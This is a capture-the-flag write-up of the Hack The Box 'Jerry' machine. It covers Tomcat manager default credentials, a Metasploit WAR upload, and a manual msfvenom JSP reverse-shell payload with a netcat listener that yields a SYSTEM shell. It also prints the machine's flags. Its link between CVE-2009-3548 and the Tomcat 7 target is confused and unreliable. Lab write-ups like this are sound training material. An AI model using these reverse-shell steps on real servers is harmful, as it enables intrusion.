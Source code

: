 ```yaml
---
title: HTB Machine Jerry May 2025
published: 2025-05-20
description: Writeup of HTB Jerry Machine.
tags:
  - B2R
  - HTB
  - Easy
  - Retired
  - Windows
  - Tomcat
  - Apache
  - Metasploit
  - CVE-2009-3548
  - Path-Traversal-To-RCE
image: images/cover.png
category: HTB Machine Writeups
draft: false
---
```

# Scanning

## Nmap


```bash
nmap -sC -sV -T5 -oA nmap/initials 10.10.10.95 -Pn
```

```bash
# Nmap 7.94SVN scan initiated Tue May 20 15:50:47 2025 as: nmap -sC -sV -T5 -oA nmap/initials -Pn 10.10.10.95
Nmap scan report for 10.10.10.95 (10.10.10.95)
Host is up (0.17s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 20 15:51:26 2025 -- 1 IP address (1 host up) scanned in 38.79 seconds
```

- Found port 8080 open running `Apache Tomcat 7.0.88` with Coyote JSP engine 1.1
- Used `-Pn` flag to skip host discovery as the target might be blocking ICMP ping packets
- The scan reveals this is a fairly isolated server with only the Tomcat service exposed
- Apache Tomcat 7.0.88 is relatively outdated, suggesting potential vulnerabilities

# Enumeration

- Accessing the web server at `http://10.10.10.95:8080` presents the default Tomcat welcome page:

![Pasted image 20250520170205.png](images/Pasted_image_20250520170205.png)

- The welcome page shows links to various Tomcat applications, including the Tomcat Manager
- When attempting to access the `Manager App`, I'm prompted for authentication credentials
- First tried basic credentials:
    - `Admin:Admin`

![Pasted image 20250520170610.png](images/Pasted_image_20250520170610.png)

- This attempt resulted in "Access Denied" - but interestingly, the error page reveals valid credentials in plain text!
- Hardcoded default credentials appear in the error message:
    - `tomcat:s3cret`

![Pasted image 20250520170406.png](images/Pasted_image_20250520170406.png)

- Using these credentials successfully grants access to the Tomcat Manager interface at `http://10.10.10.95:8080/manager/html`

![Pasted image 20250520170543.png](images/Pasted_image_20250520170543.png)

- The Manager interface provides complete control over deployed applications and server status
- This is a significant security weakness - administrative credentials should never be included in error messages

![Pasted image 20250520170132.png](images/Pasted_image_20250520170132.png)

- Using `searchsploit` to find known vulnerabilities for this Tomcat version:

![Pasted image 20250520165404.png](images/Pasted_image_20250520165404.png)

- Several vulnerabilities appear, including multiple paths for exploitation

## Technical Analysis of CVE-2009-3548

- The Apache Tomcat Manager application is vulnerable to `CVE-2009-3548`, which is a `directory traversal vulnerability`. This vulnerability specifically affects:
	- Apache Tomcat versions 6.0.0 to 6.0.20
	- Apache Tomcat versions 5.5.0 to 5.5.28
	- Apache Tomcat versions 4.1.0 to 4.1.39
- While our target is running Tomcat 7.0.88, it's still vulnerable to similar attack vectors because of how the Manager application handles WAR file deployments.

## Attack Vector Details

1. **Authentication Bypass**: The vulnerability originally allowed attackers to bypass authentication by using directory traversal sequences (`../`) in URLs.
2. **WAR File Deployment**: In our case, we're using valid credentials, but exploiting the ability to deploy custom WAR (Web Application Archive) files.
3. **Execution Flow**:
    - A WAR file contains a web application that can be deployed to a Java servlet container
    - When deployed, Tomcat extracts and executes the contents
    - If we include malicious JSP code in our WAR file, it will execute with Tomcat's privileges
    - Since Tomcat is typically running as a privileged user, this allows for remote code execution
4. **Modern Exploitation**: While our target isn't vulnerable to the original CVE-2009-3548 directory traversal, the WAR file upload functionality presents a similar security risk that can be exploited through the Manager interface.

# Exploitation using Metasploit

- After confirming the vulnerability exists, I used Metasploit's `tomcat_mgr_upload` module:

```bash
use exploit/multi/http/tomcat_mgr_upload
set rhosts 10.10.10.95
set rport 8080
set lhost 10.10.16.2
set httpusername tomcat
set httppassword s3cret
exploit
```

- This module:
    1. Authenticates to the Tomcat Manager interface
    2. Creates a malicious WAR file containing a JSP payload
    3. Uploads and deploys the WAR file
    4. Triggers the payload to establish a reverse shell

![Pasted image 20250520165132.png](images/Pasted_image_20250520165132.png)

- Success! The module worked perfectly and provided a Meterpreter shell
- This demonstrates how dangerous exposed management interfaces can be, especially with default credentials

# Manual Exploitation

- While Metasploit makes this easy, understanding the manual process is valuable for learning
- The Tomcat Manager interface provides a direct "WAR file to deploy" upload function:

![Pasted image 20250520165752.png](images/Pasted_image_20250520165752.png)

- First, I created a custom payload using `msfvenom`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.16.2 lport=1337 -f war -o shell2.war
```

- This command:
    1. Uses the `java/jsp_shell_reverse_tcp` payload - a JSP-based reverse shell
    2. Sets my attacking machine as the callback destination
    3. Formats the output as a WAR file
    4. Names the output file `shell2.war`

![Pasted image 20250520165721.png](images/Pasted_image_20250520165721.png)

- After generating the payload, I uploaded it through the Manager interface
- The WAR file appears in the application list after successful deployment:

![Pasted image 20250520165833.png](images/Pasted_image_20250520165833.png)

- A WAR file's context path (URL) is typically the filename without the .war extension
- Starting a netcat listener to catch the reverse shell:

```bash
nc -lvnp 1337
```

- Then triggering the payload by accessing the deployed application:

![Pasted image 20250520165907.png](images/Pasted_image_20250520165907.png) ![Pasted image 20250520165917.png](images/Pasted_image_20250520165917.png)

- Success! The shell connects back with SYSTEM privileges
- This demonstrates the severity of the vulnerability - direct command execution with the highest privilege level

### Understanding the WAR Payload

- The WAR file contains:
	1. A deployment descriptor (`WEB-INF/web.xml`) that defines the application structure
	2. JSP files that execute when accessed through the web server
	3. In our case, embedded Java code that creates a reverse TCP connection
	4. When executed, it runs with the same privileges as the Tomcat service (SYSTEM in this case)

## Getting Flags

- With SYSTEM-level access, retrieving both user and root flags is trivial:

![Pasted image 20250520165319.png](images/Pasted_image_20250520165319.png)

lua

```lua
user.txt
7004dbcef0f854e0fb401875f26ebd00
root.txt
04a8b36e1545a455393d067e772fe90e
```